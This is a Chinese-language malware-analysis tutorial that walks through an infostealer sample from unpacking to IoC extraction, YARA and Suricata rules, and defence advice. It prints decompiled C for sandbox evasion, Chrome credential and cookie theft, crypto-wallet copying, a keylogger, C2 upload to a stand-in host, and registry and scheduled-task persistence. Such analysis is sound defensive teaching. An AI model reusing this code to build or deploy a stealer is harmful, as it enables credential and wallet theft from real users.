



## 案例三：恶意软件分析 — 信息窃取木马

恶意软件分析是逆向工程最具实战价值的应用领域之一。信息窃取木马（Infostealer）是近年来增长最快的恶意软件类别，专门窃取浏览器保存的密码、Cookie、加密货币钱包、信用卡信息等敏感数据，并通过C2（Command & Control）服务器回传给攻击者。本案例以一个真实的UPX加壳PE32样本为对象，完整演示从脱壳、静态分析、动态调试到IoC提取的全流程。

### 恶意软件分析方法论

在深入样本之前，先建立分析框架。恶意软件分析分为三种互补方法：

| 方法 | 核心思路 | 优势 | 劣势 | 适用场景 |
|------|----------|------|------|----------|
| 静态分析 | 不执行样本，直接分析二进制结构 | 安全、可控、可复现 | 难以应对混淆和加壳 | 初步分类、特征提取 |
| 动态分析 | 在沙箱中执行样本，观察行为 | 绕过混淆、捕获真实行为 | 可能触发反沙箱检测 | 行为分析、网络流量捕获 |
| 混合分析 | 静态+动态结合 | 互相补充、全面覆盖 | 耗时较长 | 深度分析、完整报告 |

实际工作中，推荐的分析流程如下：



### 样本基础信息

在开始深入分析之前，收集样本的基本元数据：

- **文件类型**：PE32可执行文件（GUI子系统）
- **编译器识别**：Visual Studio 2019（通过PE头的Rich Header和时间戳推断）
- **加壳状态**：UPX壳（通过节名`UPX0`/`UPX1`和特征字节识别）
- **文件大小**：约187KB（加壳后），脱壳后约420KB
- **编译时间戳**：2024-03-15（PE头TimeDateStamp字段）
- **目标架构**：Intel 80386（32位x86）

获取文件哈希（用于后续关联查询和报告引用）：

```bash
# 计算多种哈希值
$ sha256sum sample.exe
a1b2c3d4e5f6...  sample.exe

$ md5sum sample.exe
d41d8cd98f00b204e...  sample.exe

$ ssdeep sample.exe  # 模糊哈希，用于相似样本关联
384:K7hBpQj...  sample.exe
```

> **为什么要计算多种哈希？** SHA256用于精确匹配，MD5用于兼容旧系统和数据库查询，ssdeep用于模糊匹配——攻击者修改一个字节就能改变SHA256，但ssdeep仍能找到相似变种。

### 第一阶段：脱壳处理

#### 壳检测

```bash
# 方法一：file命令快速识别
$ file sample.exe
sample.exe: PE32 executable (GUI) Intel 80386, for MS Windows, UPX compressed

# 方法二：使用Detect It Easy (DIE) 精确识别壳类型和版本
$ diec sample.exe
PE32 Packer: UPX 3.96 [NRV2B]

# 方法三：检查PE节名
$ python3 -c "
import pefile
pe = pefile.PE('sample.exe')
for s in pe.sections:
    print(f'{s.Name.decode().rstrip(chr(0)):10s} VA=0x{s.VirtualAddress:08x} Size=0x{s.Misc_VirtualSize:08x}')
"
UPX0       VA=0x00401000 Size=0x0005a000
UPX1       VA=0x0045b000 Size=0x00042000
.rsrc      VA=0x0049d000 Size=0x00001000
```

#### 脱壳执行

```bash
# 常规脱壳
$ upx -d sample.exe -o sample_unpacked.exe
                       Ultimate Packer for eXecutables
                       Copyright (C) 1996 - 2024
UPX 3.96        Markus Oberhumer, Laszlo Molnar & John Reiser    May 23rd 2024

File size         Ratio      Format      Name
   ----------   ------   -----------   -----------
    430080 <-    192000   44.65%    win32/pe     sample_unpacked.exe
```

> **脱壳失败怎么办？** 如果UPX标准脱壳失败（修改版UPX、手工加壳），需要手动脱壳：在调试器中找到OEP（Original Entry Point），用`ESP定律`或`单步跟踪法`定位真正的入口点，然后使用OllyDump或Scylla转储内存。具体方法见本章"核心技巧"部分的动态分析技术。

#### 脱壳验证

```bash
# 验证脱壳是否成功——检查入口点是否在正常代码段内
$ python3 -c "
import pefile
pe = pefile.PE('sample_unpacked.exe')
ep = pe.OEP
print(f'Entry Point: 0x{ep:08x}')
for s in pe.sections:
    if s.contains_rva(ep):
        print(f'EP in section: {s.Name.decode().rstrip(chr(0))}')
        break
"
Entry Point: 0x00439a10
EP in section: .text
```

脱壳后入口点落在`.text`节内，说明脱壳成功。如果EP仍在`UPX1`节，则脱壳不完整。

### 第二阶段：静态分析

#### 导入表分析

用IDA Pro打开脱壳后的样本，首先查看导入表（Imports）来快速判断恶意软件的功能类别：



关键导入函数及其恶意用途解读：

| API函数 | 合法用途 | 本样本中的恶意用途 |
|---------|----------|-------------------|
| `InternetOpenA` | 浏览器网络请求 | 伪装为正常浏览器发起C2通信 |
| `CryptEncrypt` | 数据加密保护 | 加密窃取的数据后传输，防止网络检测 |
| `RegSetValueExA` | 程序设置保存 | 写入Run键实现开机自启 |
| `CreateToolhelp32Snapshot` | 任务管理器 | 枚举进程，检测安全软件和调试器 |
| `GetAsyncKeyState` | 辅助功能/游戏 | 实时捕获键盘输入（键盘记录器） |
| `GetForegroundWindow` | 窗口管理 | 获取当前活动窗口标题，用于上下文关联 |

#### 字符串分析

```bash
# 提取可打印字符串
$ strings sample_unpacked.exe | grep -iE "(http|reg|password|cookie|wallet|bitcoin|chrome|firefox|keylog|sandbox|debug)" | head -30

http://evil.example.com/api/upload
Mozilla/5.0
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\SystemService
ollydbg.exe
x64dbg.exe
wireshark.exe
procmon.exe
Login Data
Cookies
Web Data
bitcoin wallet
MetaMask
password
```

字符串中暴露的信息非常关键：
- **C2地址**：`evil.example.com/api/upload`
- **持久化路径**：`HKCU\...\Run\SystemService`
- **目标数据**：浏览器的`Login Data`（密码）、`Cookies`、`Web Data`（自动填充）
- **反分析目标**：OllyDbg、x64dbg、Wireshark、Process Monitor
- **加密货币目标**：Bitcoin钱包、MetaMask插件钱包

#### 主函数逻辑还原

通过IDA F5反编译，还原main函数的完整逻辑流程：



对应的反编译伪代码：

```c
int main()
{
    // 1. 反沙箱检测——如果是分析环境就静默退出
    if (check_sandbox()) {
        exit(0);  // 不弹窗、不报错，悄然退出
    }
    
    // 2. 收集系统指纹信息
    SystemInfo info;
    collect_system_info(&info);  // 主机名、用户名、OS版本、IP地址
    
    // 3. 窃取浏览器敏感数据
    steal_browser_data();  // 密码、Cookie、自动填充、浏览历史
    
    // 4. 启动键盘记录线程（后台持续运行）
    HANDLE hThread = CreateThread(NULL, 0, keylogger_thread, NULL, 0, NULL);
    
    // 5. 加密并上传窃取的数据
    EncryptedData encrypted;
    encrypt_data(&info, &encrypted);
    upload_to_c2(&encrypted);
    
    // 6. 建立持久化
    add_to_startup();
    
    // 7. 进入心跳循环，定期上报
    while (1) {
        Sleep(300000);  // 每5分钟心跳一次
        upload_heartbeat();
    }
    
    return 0;
}
```

### 第三阶段：关键函数深度分析

#### 3.1 反沙箱/反分析检测

信息窃取木马通常在执行前进行环境探测，避免在安全研究人员的沙箱中暴露真实行为：

```c
int check_sandbox()
{
    SYSTEM_INFO si;
    MEMORYSTATUSEX ms;
    
    // === 硬件指纹检测 ===
    
    // 检测1：CPU核心数（虚拟机/沙箱通常只分配1-2核）
    GetSystemInfo(&si);
    if (si.dwNumberOfProcessors < 2) {
        return 1;  // 疑似沙箱
    }
    
    // 检测2：物理内存大小（沙箱通常分配2GB以下）
    ms.dwLength = sizeof(MEMORYSTATUSEX);
    GlobalMemoryStatusEx(&ms);
    if (ms.ullTotalPhys < 2ULL * 1024 * 1024 * 1024) {
        return 1;  // 内存过小，疑似沙箱
    }
    
    // 检测3：屏幕分辨率（虚拟机默认分辨率通常较小）
    if (GetSystemMetrics(SM_CXSCREEN) < 800 ||
        GetSystemMetrics(SM_CYSCREEN) < 600) {
        return 1;
    }
    
    // === 分析工具检测 ===
    
    // 检测4：枚举进程，查找已知的分析/调试工具
    const char *blacklist[] = {
        "ollydbg.exe",      // OllyDbg调试器
        "x64dbg.exe",       // x64dbg调试器
        "ida.exe",          // IDA Pro
        "ida64.exe",        // IDA Pro 64位
        "wireshark.exe",    // 网络抓包工具
        "procmon.exe",      // Process Monitor
        "processhacker.exe",// Process Hacker
        "tcpview.exe",      // TCP连接查看器
        "vmtoolsd.exe",     // VMware Tools
        "vboxservice.exe",  // VirtualBox服务
        "vboxtray.exe",     // VirtualBox托盘
        NULL
    };
    
    for (int i = 0; blacklist[i]; i++) {
        if (find_process(blacklist[i])) return 1;
    }
    
    // === 时间检测 ===
    
    // 检测5：Sleep时间扭曲（沙箱可能加速运行）
    DWORD t1 = GetTickCount();
    Sleep(1000);
    DWORD t2 = GetTickCount();
    if ((t2 - t1) < 900) {  // 正常应该≥1000ms
        return 1;  // 时间被压缩，疑似加速沙箱
    }
    
    // 检测6：检查磁盘序列号（部分沙箱使用固定序列号）
    DWORD serial;
    GetVolumeInformationA("C:\\", NULL, 0, &serial, NULL, NULL, NULL, 0);
    // 已知沙箱序列号黑名单比对
    
    return 0;  // 通过所有检测，认为是真实环境
}
```

> **攻防博弈：** 高级分析人员会通过Hook这些API来绕过检测。例如，Hook `GetSystemInfo` 返回8核，Hook `GlobalMemoryStatusEx` 返回16GB，Hook `CreateToolhelp32Snapshot` 过滤掉分析工具进程。这使得恶意软件认为自己运行在真实环境中，从而暴露全部行为。

#### 3.2 系统信息收集

```c
void collect_system_info(SystemInfo *info)
{
    char buf[512];
    DWORD size;
    
    // 主机名
    size = sizeof(buf);
    GetComputerNameA(buf, &size);
    strncpy(info->hostname, buf, sizeof(info->hostname));
    
    // 用户名
    size = sizeof(buf);
    GetUserNameA(buf, &size);
    strncpy(info->username, buf, sizeof(info->username));
    
    // Windows版本
    info->os_version = GetVersion();
    
    // 外部IP地址（通过访问外部服务获取）
    HINTERNET hInternet = InternetOpenA("Mozilla/5.0", INTERNET_OPEN_TYPE_PRECONFIG, NULL, NULL, 0);
    HINTERNET hConnect = InternetConnectA(hInternet, "api.ipify.org", 80, NULL, NULL, INTERNET_SERVICE_HTTP, 0, 0);
    HINTERNET hRequest = HttpOpenRequestA(hConnect, "GET", "/", NULL, NULL, NULL, 0, 0);
    HttpSendRequestA(hRequest, NULL, 0, NULL, 0);
    
    DWORD bytesRead;
    InternetReadFile(hRequest, info->external_ip, sizeof(info->external_ip), &bytesRead);
    
    // 已安装的安全软件
    enum_security_software(info->security_products);
    
    // 屏幕分辨率、系统语言、时区等
    info->screen_width = GetSystemMetrics(SM_CXSCREEN);
    info->screen_height = GetSystemMetrics(SM_CYSCREEN);
}
```

这些信息在暗网市场中被称为"日志（Log）"，完整的系统指纹能让买家精确评估受害者的"价值"。

#### 3.3 浏览器数据窃取

这是信息窃取木马的核心功能。现代浏览器将密码、Cookie等数据保存在SQLite数据库中，但使用Windows DPAPI（Data Protection API）加密：

```c
void steal_browser_data()
{
    // 浏览器数据路径（以Chrome为例）
    char base_path[MAX_PATH];
    // 拼接路径：%LOCALAPPDATA%\Google\Chrome\User Data\Default\
    SHGetFolderPathA(NULL, CSIDL_LOCAL_APPDATA, NULL, 0, base_path);
    strcat(base_path, "\\Google\\Chrome\\User Data\\Default\\");
    
    // === 窃取保存的密码 ===
    // Chrome密码存储在 Login Data SQLite数据库中
    // 每条记录：origin_url, username_value, password_value(加密)
    steal_sqlite_db(base_path, "Login Data", "logins",
                    "SELECT origin_url, username_value, password_value FROM logins");
    
    // === 窃取Cookie ===
    // Cookie用于会话劫持，即使不知道密码也能登录
    steal_sqlite_db(base_path, "Network\\Cookies", "cookies",
                    "SELECT host_key, name, encrypted_value FROM cookies");
    
    // === 窃取自动填充数据 ===
    // 包含地址、电话、信用卡号等
    steal_sqlite_db(base_path, "Web Data", "autofill",
                    "SELECT name, value FROM autofill_entries");
    
    // === 窃取浏览历史 ===
    steal_sqlite_db(base_path, "History", "history",
                    "SELECT url, title, visit_count FROM urls");
    
    // === 窃取加密货币钱包文件 ===
    steal_wallet_files();
}

void steal_wallet_files()
{
    char wallet_path[MAX_PATH];
    
    // MetaMask浏览器扩展钱包
    SHGetFolderPathA(NULL, CSIDL_LOCAL_APPDATA, NULL, 0, wallet_path);
    strcat(wallet_path, "\\Google\\Chrome\\User Data\\Default\\Local Extension Settings\\nkbihfbeogaeaoehlefnkodbefgpgknn");
    copy_directory(wallet_path, "metamask_backup");
    
    // Exodus桌面钱包
    SHGetFolderPathA(NULL, CSIDL_APPDATA, NULL, 0, wallet_path);
    strcat(wallet_path, "\\Exodus\\exodus.wallet");
    copy_directory(wallet_path, "exodus_backup");
    
    // Electrum钱包
    SHGetFolderPathA(NULL, CSIDL_APPDATA, NULL, 0, wallet_path);
    strcat(wallet_path, "\\Electrum\\wallets");
    copy_directory(wallet_path, "electrum_backup");
}

// DPAPI解密：Chrome 80+版本的Cookie/密码使用DPAPI保护
BOOL dpapi_decrypt(BYTE *encrypted, DWORD enc_len, BYTE *decrypted, DWORD *dec_len)
{
    DATA_BLOB in, out;
    in.pbData = encrypted;
    in.cbData = enc_len;
    
    // CryptUnprotectData使用当前用户密钥解密
    if (CryptUnprotectData(&in, NULL, NULL, NULL, NULL, 0, &out)) {
        memcpy(decrypted, out.pbData, out.cbData);
        *dec_len = out.cbData;
        LocalFree(out.pbData);
        return TRUE;
    }
    return FALSE;
}
```

> **Chrome v80+的安全增强：** 新版Chrome使用AES-256-GCM加密Cookie，密钥存储在`Local State`文件中（用DPAPI保护）。更高级的信息窃取木马会先读取`Local State`获取密钥，再解密Cookie。分析时需要理解这个两层加密结构。

#### 3.4 键盘记录器实现

键盘记录器在独立线程中运行，捕获所有键盘输入并关联到当前活动窗口：

```c
// 键盘记录器——独立线程
DWORD WINAPI keylogger_thread(LPVOID param)
{
    char log_file[MAX_PATH];
    char window_title[256];
    char last_window[256] = "";
    
    // 日志文件保存在临时目录
    GetTempPathA(MAX_PATH, log_file);
    strcat(log_file, "syslog.dat");
    
    while (1)
    {
        // 检测当前活动窗口——当窗口切换时记录上下文
        HWND hwnd = GetForegroundWindow();
        GetWindowTextA(hwnd, window_title, sizeof(window_title));
        
        if (strcmp(window_title, last_window) != 0) {
            // 窗口切换了，记录分隔标记
            write_log(log_file, "\n[%s] - Window: %s\n", 
                      get_timestamp(), window_title);
            strcpy(last_window, window_title);
        }
        
        // 扫描所有可能的按键（VK码0x08~0xFE）
        for (int vk = 0x08; vk <= 0xFE; vk++) {
            if (GetAsyncKeyState(vk) & 0x0001) {  // 检测按键按下
                translate_and_log(log_file, vk);
            }
        }
        
        Sleep(10);  // 10ms轮询间隔，平衡CPU占用和捕获完整性
    }
}

// 虚拟键码转可读字符串
void translate_and_log(char *log_file, int vk)
{
    char key[32];
    int shift = GetAsyncKeyState(VK_SHIFT) & 0x8000;
    int caps = GetKeyState(VK_CAPITAL) & 0x0001;
    
    if (vk >= 0x30 && vk <= 0x39) {          // 数字键 0-9
        key[0] = (char)vk;
        key[1] = 0;
    } else if (vk >= 0x41 && vk <= 0x5A) {   // 字母 A-Z
        key[0] = (char)vk;
        key[1] = 0;
        // 大小写判断
        if (shift ^ caps) key[0] += 32;       // 小写
    } else if (vk == VK_RETURN) {
        strcpy(key, "[ENTER]");
    } else if (vk == VK_BACK) {
        strcpy(key, "[BKSP]");
    } else if (vk == VK_TAB) {
        strcpy(key, "[TAB]");
    } else if (vk == VK_SPACE) {
        key[0] = ' ';
        key[1] = 0;
    }
    // ... 更多特殊键处理
    
    write_log(log_file, "%s", key);
}
```

键盘记录器的日志输出格式如下，清晰记录了用户在哪个应用中输入了什么：

```text
[2024-03-15 14:23:01] - Window: Google Chrome
john.doe@gmail.com[TAB]Myyour_password![ENTER]

[2024-03-15 14:25:17] - Window: MetaMask - Unlock Wallet
metamask_backup_phrase[TAB]password123[ENTER]

[2024-03-15 14:30:45] - Window: Binance - Login
trader2024[TAB]Crypto$ecure!99[ENTER]
```

#### 3.5 C2通信协议分析

C2通信是恶意软件的"神经中枢"，理解通信协议有助于网络层面的检测和阻断：

```c
void upload_to_c2(DataBuffer *data)
{
    // C2服务器地址（硬编码，更高级版本使用DGA域名生成算法）
    const char *c2_url = "http://evil.example.com/api/upload";
    
    // 初始化WinINet
    HINTERNET hInternet = InternetOpenA(
        "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
        INTERNET_OPEN_TYPE_PRECONFIG,  // 使用系统代理设置
        NULL, NULL, 0
    );
    
    HINTERNET hConnect = InternetConnectA(
        hInternet, "evil.example.com", 80,
        NULL, NULL, INTERNET_SERVICE_HTTP, 0, 0
    );
    
    HINTERNET hRequest = HttpOpenRequestA(
        hConnect, "POST", "/api/upload",
        "HTTP/1.1", NULL, NULL,
        INTERNET_FLAG_NO_CACHE_WRITE, 0
    );
    
    // 自定义请求头——伪装为正常API调用
    const char *headers = 
        "Content-Type: application/octet-stream\r\n"
        "X-Session-ID: {生成的唯一会话ID}\r\n"
        "X-Data-Type: analytics\r\n";
    
    // 发送窃取的数据
    HttpSendRequestA(hRequest, headers, -1, data->buffer, data->size);
    
    // 接收C2返回的命令
    char cmd[4096];
    DWORD bytesRead = 0;
    InternetReadFile(hRequest, cmd, sizeof(cmd) - 1, &bytesRead);
    cmd[bytesRead] = 0;
    
    // 解析并执行C2命令
    parse_c2_command(cmd);
    
    InternetCloseHandle(hRequest);
    InternetCloseHandle(hConnect);
    InternetCloseHandle(hInternet);
}

// C2命令解析器
void parse_c2_command(const char *cmd)
{
    // 常见的C2命令集（Command Set）：
    // GET_SYSTEM  - 重新收集系统信息
    // GET_SCREEN  - 截屏并上传
    // GET_FILE <path> - 窃取指定文件
    // EXEC <cmd>  - 执行系统命令
    // UPDATE <url> - 下载并运行更新
    // SLEEP <ms>  - 调整心跳间隔
    // SELF_DESTRUCT - 自毁（清除痕迹）
    
    if (strncmp(cmd, "EXEC ", 5) == 0) {
        execute_cmd(cmd + 5);
    } else if (strncmp(cmd, "GET_FILE ", 9) == 0) {
        upload_file(cmd + 9);
    } else if (strncmp(cmd, "GET_SCREEN", 10) == 0) {
        take_screenshot_and_upload();
    } else if (strncmp(cmd, "SELF_DESTRUCT", 13) == 0) {
        self_destruct();
    }
}
```

#### 3.6 持久化机制

```c
void add_to_startup()
{
    HKEY hKey;
    char exe_path[MAX_PATH];
    
    // 获取自身路径
    GetModuleFileNameA(NULL, exe_path, MAX_PATH);
    
    // 方法1：注册表Run键（最常见）
    RegOpenKeyExA(HKEY_CURRENT_USER,
        "Software\\Microsoft\\Windows\\CurrentVersion\\Run",
        0, KEY_SET_VALUE, &hKey);
    RegSetValueExA(hKey, "SystemService", 0, REG_SZ,
        (BYTE *)exe_path, strlen(exe_path) + 1);
    RegCloseKey(hKey);
    
    // 方法2：复制到隐蔽位置
    char dest[MAX_PATH];
    SHGetFolderPathA(NULL, CSIDL_APPDATA, NULL, 0, dest);
    strcat(dest, "\\Microsoft\\Windows\\svchost.exe");
    CopyFileA(exe_path, dest, FALSE);
    
    // 方法3：计划任务（用于权限维持）
    // 使用COM接口ITaskService创建计划任务
    // 或直接调用schtasks命令
    char cmd[512];
    sprintf(cmd, "schtasks /create /sc ONLOGON /tn \"SystemUpdate\" /tr \"%s\" /f", dest);
    ShellExecuteA(NULL, "open", "cmd.exe", cmd, NULL, SW_HIDE);
}
```

> **注意：** 样本使用`HKCU`（当前用户）而非`HKLM`（本地机器），因为`HKCU`不需要管理员权限即可写入，这是非提权恶意软件的典型选择。

### 第四阶段：IoC（入侵指标）提取

IoC是安全防御的核心产出物，用于威胁情报共享和自动化检测：

#### 4.1 主机层面IoC

| IoC类型 | 值 | 说明 |
|---------|-----|------|
| 文件哈希(SHA256) | `a1b2c3d4e5f6...` | 样本唯一标识 |
| 文件哈希(MD5) | `d41d8cd98f00b204e...` | 兼容旧数据库 |
| 注册表键 | `HKCU\...\Run\SystemService` | 持久化位置 |
| 文件路径 | `%APPDATA%\Microsoft\Windows\svchost.exe` | 伪装路径 |
| 临时文件 | `%TEMP%\syslog.dat` | 键盘记录日志 |
| 计划任务名 | `SystemUpdate` | 计划任务持久化 |

#### 4.2 网络层面IoC

| IoC类型 | 值 | 说明 |
|---------|-----|------|
| C2域名 | `evil.example.com` | 命令控制服务器 |
| 上传路径 | `/api/upload` | 数据上传接口 |
| HTTP方法 | `POST` | 数据传输方式 |
| User-Agent | `Mozilla/5.0 (Windows NT 10.0; Win64; x64)...` | 伪装浏览器 |
| 自定义Header | `X-Data-Type: analytics` | 通信特征标记 |
| 协议 | HTTP明文(端口80) | 未使用HTTPS加密 |

#### 4.3 YARA检测规则

将IoC转化为可自动执行的检测规则：

```yara
rule InfoStealer_UPX_Generic
{
    meta:
        description = "Detects UPX-packed information stealer trojan"
        author = "Security Analysis Team"
        date = "2024-03-15"
        severity = "high"
        mitre_attack = "T1005, T1056.001, T1547.001"
        
    strings:
        // C2通信特征
        $c2_url = "evil.example.com/api/upload" ascii wide
        $c2_ua = "Mozilla/5.0 (Windows NT 10.0" ascii
        
        // 浏览器数据窃取特征
        $browser1 = "Login Data" ascii wide
        $browser2 = "Cookies" ascii wide
        $browser3 = "Web Data" ascii wide
        
        // 加密货币钱包路径
        $wallet1 = "nkbihfbeogaeaoehlefnkodbefgpgknn" ascii  // MetaMask
        $wallet2 = "exodus.wallet" ascii
        $wallet3 = "Electrum\\wallets" ascii
        
        // 反分析特征
        $anti1 = "ollydbg.exe" ascii wide nocase
        $anti2 = "x64dbg.exe" ascii wide nocase
        $anti3 = "wireshark.exe" ascii wide nocase
        $anti4 = "procmon.exe" ascii wide nocase
        
        // 键盘记录特征
        $keylog1 = "GetAsyncKeyState" ascii wide
        $keylog2 = "GetForegroundWindow" ascii wide
        
        // 持久化特征
        $persist1 = "CurrentVersion\\Run" ascii wide
        $persist2 = "schtasks" ascii wide
        
        // UPX节名（加壳特征）
        $upx1 = "UPX0" ascii
        $upx2 = "UPX1" ascii
        
    condition:
        uint16(0) == 0x5A4D and  // PE文件头
        (
            ($c2_url) or
            ($browser1 and $browser2 and $browser3) or
            ($wallet1 or $wallet2 or $wallet3) or
            (2 of ($anti*) and $keylog1) or
            ($persist1 and $keylog1 and $c2_ua) or
            ($upx1 and $upx2 and 3 of ($browser*, $keylog*, $anti*, $persist*))
        )
}
```

#### 4.4 Suricata网络检测规则

```suricata
alert http $HOME_NET any -> $EXTERNAL_NET any (
    msg:"MALWARE InfoStealer C2 Upload Detected";
    flow:established,to_server;
    content:"POST"; http_method;
    content:"/api/upload"; http_uri;
    content:"X-Data-Type|3a 20|analytics"; http_header;
    sid:2024001; rev:1;
    classtype:trojan-activity;
    priority:1;
    reference:url,virustotal.com/...
)
```

### 第五阶段：网络流量分析

使用Wireshark或tshark捕获并分析恶意软件的网络通信：

```bash
# 在沙箱中启动网络捕获
$ tshark -i eth0 -w capture.pcap &
$ ./sample_unpacked.exe

# 分析HTTP流量
$ tshark -r capture.pcap -Y "http.request.method == POST" -T fields \
    -e http.host -e http.request.uri -e http.user_agent -e data.len

# 提取上传的数据内容
$ tshark -r capture.pcap -Y "tcp.stream eq 1" -T fields -e data | xxd -r -p > uploaded_data.bin
```

分析HTTP请求特征可以得出：
- 通信周期：首次执行后立即上传，之后每5分钟心跳
- 数据量：首次上传约50-200KB（取决于浏览器数据量），心跳约200字节
- 编码方式：二进制流（`Content-Type: application/octet-stream`）
- 无HTTPS加密——使用明文HTTP，便于网络层面的检测和阻断

### 第六阶段：内存取证分析

在某些情况下，恶意软件的关键数据（解密密钥、明文密码等）只存在于内存中：

```bash
# 使用Volatility进行内存取证
$ volatility -f memory.dmp --profile=Win7SP1x86 pslist | grep -i "sample\|svchost\|explorer"

# 提取恶意进程的内存空间
$ volatility -f memory.dmp --profile=Win7SP1x86 memdump -p 1234 -d ./memdump/

# 在内存转储中搜索敏感信息
$ strings memdump/1234.dmp | grep -iE "(password|token|cookie|wallet|evil\.example)"

# 提取网络连接信息
$ volatility -f memory.dmp --profile=Win7SP1x86 netscan | grep "evil.example"

# 提取注册表修改
$ volatility -f memory.dmp --profile=Win7SP1x86 hivelist
$ volatility -f memory.dmp --profile=Win7SP1x86 printkey -K "Software\Microsoft\Windows\CurrentVersion\Run"
```

### 第七阶段：分析报告与防御建议

#### MITRE ATT&CK映射

将恶意行为映射到ATT&CK框架，便于安全团队理解威胁全景：

| 战术（Tactic） | 技术（Technique） | 本样本行为 |
|---------------|-------------------|-----------|
| 侦察(TA0043) | 收集受害者主机信息(T1082) | `collect_system_info` |
| 执行(TA0002) | 用户执行(T1204) | 伪装为合法程序诱导运行 |
| 持久化(TA0003) | 注册表Run键(T1547.001) | `HKCU\...\Run\SystemService` |
| 持久化(TA0003) | 计划任务(T1053.005) | `schtasks`命令创建任务 |
| 防御规避(TA0005) | 虚拟化/沙箱逃逸(T1497.001) | 多维度反沙箱检测 |
| 发现(TA0007) | 进程发现(T1057) | 枚举进程检测分析工具 |
| 收集(TA0009) | 本地数据收集(T1005) | 浏览器数据库、钱包文件 |
| 收集(TA0009) | 输入捕获(T1056.001) | `GetAsyncKeyState`键盘记录 |
| 渗出(TA0010) | 通过C2通道渗出(T1041) | HTTP POST上传到C2 |

#### 防御建议

**终端层面：**
- 部署EDR（终端检测与响应）监控异常的注册表写入和进程注入行为
- 使用应用白名单（AppLocker/WDAC）限制未签名程序执行
- 定期审计`HKCU\...\Run`和计划任务中的可疑条目

**网络层面：**
- 在防火墙/SIEM中添加本案例提取的IoC（域名、URL、User-Agent特征）
- 部署Suricata/Zeek等NIDS（网络入侵检测系统）检测异常HTTP POST模式
- 对出站HTTP流量进行TLS检查，识别伪装为浏览器的恶意通信

**用户层面：**
- 使用密码管理器替代浏览器内置的密码保存功能
- 启用浏览器的主密码保护
- 定期清理Cookie和保存的密码

**情报共享：**
- 将样本和IoC提交至VirusTotal、MalwareBazaar等平台
- 通过STIX/TAXII协议向行业ISAC（信息共享与分析中心）发布威胁情报

### 常见分析误区

| 误区 | 正确做法 |
|------|----------|
| 直接在主机上运行可疑样本 | 始终在隔离的虚拟机/沙箱中分析 |
| 只做静态分析就下结论 | 配合动态分析验证，很多行为是运行时才触发的 |
| 脱壳后不验证直接分析 | 先确认EP在`.text`节，导入表正常 |
| 忽略反沙箱检测直接分析 | 先理解反分析逻辑，准备好绕过方案再执行 |
